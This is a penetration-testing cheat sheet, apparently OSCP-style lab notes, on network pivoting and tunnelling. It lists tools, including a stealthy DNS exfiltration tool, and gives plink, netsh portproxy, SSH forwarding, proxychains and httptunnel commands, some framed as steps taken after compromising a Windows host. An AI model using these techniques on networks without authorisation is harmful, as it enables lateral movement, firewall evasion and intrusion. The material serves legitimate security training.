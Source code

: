 # Pivot/Proxy/Tunnel/Redirect

## Guides and Reference

<details>

<summary>Guides and Reference</summary>

* [NetworkPivotingTechniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)
* [Abachy's Port Forwarding Guide](https://www.abatchy.com/2017/01/port-forwarding-practical-hands-on-guide)&#x20;
* [http://woshub.com/port-forwarding-in-windows/](http://woshub.com/port-forwarding-in-windows/)
* [https://www.offensive-security.com/metasploit-unleashed/portfwd/](https://www.offensive-security.com/metasploit-unleashed/portfwd/)
* [https://pentest.blog/explore-hidden-networks-with-double-pivoting/](https://pentest.blog/explore-hidden-networks-with-double-pivoting/)
* [https://fumenoid.github.io/posts/port-forwarding](https://fumenoid.github.io/posts/port-forwarding)
* [https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/](https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/)
* [https://www.offensive-security.com/metasploit-unleashed/proxytunnels/](https://www.offensive-security.com/metasploit-unleashed/proxytunnels/)
* [https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html](https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html)
* [https://www.cynet.com/attack-techniques-hands-on/how-hackers-use-icmp-tunneling-to-own-your-network/](https://www.cynet.com/attack-techniques-hands-on/how-hackers-use-icmp-tunneling-to-own-your-network/)
* [https://xapax.github.io/security/#random\_tips\_and\_tricks/port\_forwarding\_and\_tunneling/](https://xapax.github.io/security/#random\_tips\_and\_tricks/port\_forwarding\_and\_tunneling/)
* [https://xapax.github.io/security/#random\_tips\_and\_tricks/pivoting/](https://xapax.github.io/security/#random\_tips\_and\_tricks/pivoting/)
* [http://pwnwiki.io/#!pivoting/linux/index.md](http://pwnwiki.io/#!pivoting/linux/index.md)
* [https://medium.com/@kuwaitison/pivoting-and-tunneling-for-oscp-and-beyond-cheat-sheet-3435d1d6022](https://medium.com/@kuwaitison/pivoting-and-tunneling-for-oscp-and-beyond-cheat-sheet-3435d1d6022)
* _Attacking Network Protocols: Network Proxies - pg.20_

</details>

## Tools

<details>

<summary>Tools</summary>

* [PivotSuite](https://github.com/RedTeamOperations/PivotSuite) - PivotSuite is a portable, platform independent and powerful network pivoting toolkit, Which helps Red Teamers / Penetration Testers to use a compromised system to move around inside a network.
* [ProxyChains](https://github.com/haad/proxychains) - ProxyChains is a UNIX program, that hooks network-related libc functions in dynamically linked programs via a preloaded DLL and redirects the connections through SOCKS4a/5 or HTTP proxies.
* [Modaliska](https://github.com/drk1wi/Modlishka)  - Modlishka is a powerful and flexible HTTP reverse proxy. It implements an entirely new and interesting approach of handling browser-based HTTP traffic flow, which allows to transparently proxy multi-domain destination traffic, both TLS and non-TLS, over a single domain, without a requirement of installing any additional certificate on the client.
* [SSHuttle](https://github.com/sshuttle/sshuttle) - Where transparent proxy meets VPN meets ssh.
  * [https://sshuttle.readthedocs.io/en/stable/](https://sshuttle.readthedocs.io/en/stable/)&#x20;
* [Iodine](https://github.com/yarrick/iodine) - This is a piece of software that lets you tunnel IPv4 data through a DNS server. This can be usable in different situations where internet access is firewalled, but DNS queries are allowed.
* [Mallory](https://github.com/justmao945/mallory) - HTTP/HTTPS proxy over SSH.
* [Pivotnacci](https://github.com/blackarrowsec/pivotnacci) - Pivot into the internal network by deploying HTTP agents.
* [PacketWhisper](https://github.com/TryCatchHCF/PacketWhisper) - PacketWhisper: Stealthily exfiltrate data and defeat attribution using DNS queries and text-based steganography. Avoid the problems associated with typical DNS exfiltration methods. Transfer data between systems without the communicating devices directly connecting to each other or to a common endpoint. No need to control a DNS Name Server.
* [chisel](https://www.kali.org/tools/chisel/) - This package contains a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.
* [cryptcat](https://www.kali.org/tools/cryptcat/) - Cryptcat is a simple Unix utility which reads and writes data across network connections, using TCP or UDP protocol while encrypting the data being transmitted.
* [dns2tcp](https://www.kali.org/tools/dns2tcp/) - dns2tcp is a set of tools to encapsulate a TCP session in DNS packets. This type of encapsulation generates smaller packets than IP-over-DNS, improving throughput.
* [dnschef](https://www.kali.org/tools/dnschef/) - DNSChef is a highly configurable DNS proxy for Penetration Testers and Malware Analysts.
* [iodine](https://www.kali.org/tools/iodine/) - This is a piece of software that lets you tunnel IPv4 data through a DNS server. This can be usable in different situations where internet access is firewalled, but DNS queries are allowed.
* [miredo](https://www.kali.org/tools/miredo/) - A client for the Teredo IPV6 tunneling protocol.
* [nextnet](https://www.kali.org/tools/nextnet/) - This package contains a pivot point discovery tool written in Go.
* [redsocks](https://www.kali.org/tools/redsocks/) - Redsocks is a daemon running on the local system, that will transparently tunnel any TCP connection via a remote SOCKS4, SOCKS5 or HTTP proxy server.
* [sslh](https://www.kali.org/tools/sslh/) - sslh lets one accept HTTPS, SSH, OpenVPN, tinc and XMPP connections on the same port. This makes it possible to connect to any of these servers on port 443 (e.g. from inside a corporate firewall, which almost never block port 443) while still serving HTTPS on that port.

</details>

## Techniques and Commands

{% tabs %}
{% tab title="Linux Port Fwd" %}
* rinetd&#x20;
  * \# sudo apt update && sudo apt install rinetd&#x20;
  * The rinetd configuration file, /etc/rinetd.conf, lists forwarding rules that require four parameters, including bindaddress and bindport, which define the bound (“listening”) IP address and port, and connectaddress and connectport, which define the traffic’s destination address and port:&#x20;
  * \# cat /etc/rinetd.conf&#x20;
  * \# sudo service rinetd restart


{% endtab %}

{% tab title="Plink.exe" %}
* Plink.exe&#x20;
  * \>plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4&#x20;
    * \-ssh -connect via ssh&#x20;
    * 10.11.0.4 - kali IP&#x20;
    * \-l user&#x20;
    * \-pw password&#x20;
    * R remote port forward&#x20;
  * \>cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4&#x20;
  * The first time plink connects to a host, it will attempt to cache the host key in hte registry.&#x20;
  * We need to pipe a command into the plink execution&#x20;
  * Once finished, send commands out the 127.0.0.1 and forwarded port&#x20;
    * \# sudo nmap -sS -sV 127.0.0.1 -p 1234 • NETSH&#x20;
  * After compromising a windows device and getting SYSTEM-level (to bypass UAC), we can use the netsh utility for portforwarding and pivoting.&#x20;
  * The Windows dev must have the IP Helper service running and IPV6 enabled. Both are enabled by default&#x20;
    * \> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110&#x20;
  * We can add firewall rules to allow out traffic outbound&#x20;
    * \> netsh advfirewall firewall add rule name="forward\_port\_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow Ok.
{% endtab %}

{% tab title="SSH Tunnel" %}
* SSH local port forwarding.&#x20;
  * \# cat /root/port\_forwarding\_and\_tunneling/ssh\_local\_port\_forwarding.sh
  * \# ssh -N -L \[bind\_address:]port:host:hostport \[username@address]&#x20;
  * \# sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128&#x20;
* SSH Remote port forwarding&#x20;
  * \# cat /root/port\_forwarding\_and\_tunneling/ssh\_remote\_port\_forwarding.sh ◇# ssh -N -R \[bind\_address:]port:host:hostport \[username@address]&#x20;
  * &#x20;ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4&#x20;
* SSH Dynamic Port forwarding&#x20;
  * \# ssh -N -D : \<username>@&#x20;
  * \# sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
* [https://github.com/DennyZhang/cheatsheet-ssh-A4](https://github.com/DennyZhang/cheatsheet-ssh-A4)
* _Operator Handbook: SSH - pg.286_
{% endtab %}

{% tab title="Proxychains" %}
* \#cat /etc/proxychains.conf&#x20;
* \#sudo proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110
* [How to set up ProxyChains - Stay Anonymous](pivot-proxy-tunnel-redirect.md#linux-ssh-tunneling)
* [How to set up ProxyChains - Change IP](https://youtu.be/FtFTh-KVjsA)
{% endtab %}

{% tab title="HTTP Tunnel" %}
* Some DPI devices only allow specific protocols, like no SSH&#x20;
* HTTPTunnel&#x20;
  * \# apt-cache search httptunnel&#x20;
  * \# sudo apt install httptunnel&#x20;
  * \# hts --forward-port localhost:8888 1234 (Server-linux target) 0
* Set up server to listen on port 1234 and redirect to local 8888&#x20;
  * \# htc --forward-port 8080 10.11.0.128:1234 (Client-kali)&#x20;
* Set up client to send it to the listening server.
{% endtab %}

{% tab title="Misc" %}
### **RDP Tunneling**

* _PTFM: RDP Tunneling - pg. 53_

### **NGINX for proxy**

* _PTFM: NGINX for proxy use- pg. 64_
{% endtab %}
{% endtabs %}
